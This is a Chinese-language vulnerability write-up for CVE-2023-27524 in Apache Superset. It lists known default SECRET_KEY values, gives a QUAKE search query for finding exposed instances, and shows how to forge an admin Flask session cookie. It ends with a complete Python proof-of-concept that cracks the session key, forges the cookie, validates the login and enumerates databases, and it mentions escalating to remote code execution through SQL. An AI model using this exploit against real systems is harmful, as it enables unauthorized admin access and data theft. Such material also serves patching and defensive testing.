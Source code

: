 # Apache Superset SECRET_KEY 未授权访问漏洞 CVE-2023-27524

## 漏洞描述

Apache Superset 是一款现代化的开源大数据工具，也是企业级商业智能 Web 应用，用于数据探索分析和数据可视化。它提供了简单易用的无代码可视化构建器和声称是最先进的 SQL 编辑器，用户可以使用这些工具快速地构建数据仪表盘。CVE-2023-27524 中，未经授权的攻击者可根据默认配置的SECRET_KEY伪造成管理员用户访问Apache Superset。

## 漏洞影响

```
Apache Superse <= 2.0.1
```

## QUAKE

```
app.name="Apache Superset"
```

## 漏洞复现

登陆页面

![image-20230504141719702](images/image-20230504141719702.png)

漏洞修复补丁

```
https://github.com/apache/superset/pull/23186/files
```

![image-20230504142107277](images/image-20230504142107277.png)

补丁代码中，新建了判断用户是否使用了默认的Key进行配置，如果为默认的Key，就直接中断启动,。但在 Docker的 env 下还是添加了固定的 Key: TEST_NON_DEV_SECRET

![image-20230504142118809](images/image-20230504142118809.png)

```
# https://github.com/horizon3ai/CVE-2023-27524/blob/main/CVE-2023-27524.py
SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]
```

以Docker下的环境举例

![image-20230504142138933](images/image-20230504142138933.png)

初次请求时会获取到 Cookie, 使用默认Key验证 Cookie是否可被伪造

![image-20230504142150081](images/image-20230504142150081.png)

登陆主页面观察主要参数

![image-20230504142206013](images/image-20230504142206013.png)

通过设置参数 user_id 和 _user_id 为 1 ,构造加密Cookie

```
>>> from flask_unsign import session
>>> session.sign({'_user_id': 1, 'user_id': 1},'TEST_NON_DEV_SECRET')
'eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZE51uw.EdD7zSzojgY4keqZLOKR4GndJf8'
```

利用构造的 Cookie就可以获取到 Web后台管理权限, 后台中存在数据库语句执行模块，通过设置允许执行其他数据库语句后利用数据库语句 RCE

![image-20230504142222421](images/image-20230504142222421.png)

![image-20230504142234700](images/image-20230504142234700.png)

## 漏洞POC

```python
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-u', help='Base URL of Superset instance', required=True)
    parser.add_argument('--id', help='User ID to forge session cookie for, default=1', required=False, default='1')
    parser.add_argument('--validate', '-v', help='Validate login', required=False, action='store_true')
    parser.add_argument('--timeout', '-t', help='Time to wait before using forged session cookie, default=5s', required=False, type=int, default=5)
    args = parser.parse_args()

    try:
        u = args.url.rstrip('/') + '/login/'

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0'
        }

        resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
        if resp.status_code != 200:
            print(f'Error retrieving login page at {u}, status code: {resp.status_code}')
            return

        session_cookie = None
        for c in resp.cookies:
            if c.name == 'session':
                session_cookie = c.value
                break

        if not session_cookie:
            print('Error: No session cookie found')
            return

        print(f'Got session cookie: {session_cookie}')

        try:
            decoded = session.decode(session_cookie)
            print(f'Decoded session cookie: {decoded}')
        except:
            print('Error: Not a Flask session cookie')
            return

        match = re.search(r'&#34;version_string&#34;: &#34;(.*?)&#34', resp.text)
        if match:
            version = match.group(1)
        else:
            version = 'Unknown'

        print(f'Superset Version: {version}')


        for i, k in enumerate(SECRET_KEYS):
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print('Failed to crack session cookie')
            return

        print(f'Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}')

        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({'_user_id': user_id, 'user_id': user_id}, k)
        print(f'Forged session cookie for user {user_id}: {forged_cookie}')

        if args.validate:
            try:
                headers['Cookie'] = f'session={forged_cookie}'
                print(f'Sleeping {args.timeout} seconds before using forged cookie to account for time drift...')
                sleep(args.timeout)
                resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
                if resp.status_code == 302:
                    print(f'Got 302 on login, forged cookie appears to have been accepted')
                    validated = True
                else:
                    print(f'Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')
            except Exception as e_inner:
                print(f'Got error {e_inner} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')

            if not validated:
                return

            print('Enumerating databases')
            for i in range(1, 101):
                database_url_base = args.url.rstrip('/') + '/api/v1/database'
                try:
                    r = requests.get(f'{database_url_base}/{i}', headers=headers, verify=False, timeout=30, allow_redirects=False)
                    if r.status_code == 200:
                        result = r.json()['result'] # validate response is JSON
                        name = result['database_name']
                        print(f'Found database {name}')
                    elif r.status_code == 404:
                        print(f'Done enumerating databases')
                        break # no more databases
                    else:
                        print(f'Unexpected error: status code={r.status_code}')
                        break
                except Exception as e_inner:
                    print(f'Unexpected error: {e_inner}')
                    break


    except Exception as e:
        print(f'Unexpected error: {e}')


if __name__ == '__main__':
    main()
```